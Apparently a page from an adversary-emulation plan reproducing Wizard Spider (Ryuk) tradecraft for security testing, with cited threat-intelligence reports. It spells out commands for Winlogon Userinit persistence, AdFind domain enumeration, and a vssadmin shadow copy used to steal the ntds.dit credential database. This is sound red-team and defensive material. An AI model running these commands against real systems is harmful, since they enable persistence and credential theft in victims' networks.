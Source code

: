 ```bash
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, $env:AppData\uxtheme.exe" -Force
```

```bash
# Wizard Spider has also used AdFind and nltest/dclist to enumerate domain computers, including the domain controller.[4][5][3][7][6]

adfind -f "(objectcategory=group)"
```

### :microscope: Cited Intelligence

* <https://us-cert.cisa.gov/ncas/alerts/aa20-302a>
* <https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html>
* <https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/>
* <https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/>
* <https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html>
* <https://thedfirreport.com/2020/10/08/ryuks-return/>
* <https://redcanary.com/blog/how-one-hospital-thwarted-a-ryuk-ransomware-outbreak/>

## Test 4 (Step 8)

### Step 8 - Dump Active Directory Database (ntds.dit)

:microphone: `Voice Track:`

During step 8, Wizard Spider creates a volume shadow copy in order to collect the active directory database (ntds.dit).

Wizard Spider uses vssadmin to create the shadow copy.

Wizard Spider exfiltrates the shadow copy files using an RDP-mounted network share.

---

### ☣️ Procedures

:warning: Spawn a **CMD** shell within your PowerShell window:

```bash
cmd.exe
```

```bash
cls
```

```bash
# Wizard Spider has gained access to credentials via exported copies of the ntds.dit Active Directory database.[3]

vssadmin.exe create shadow /for=C:
```
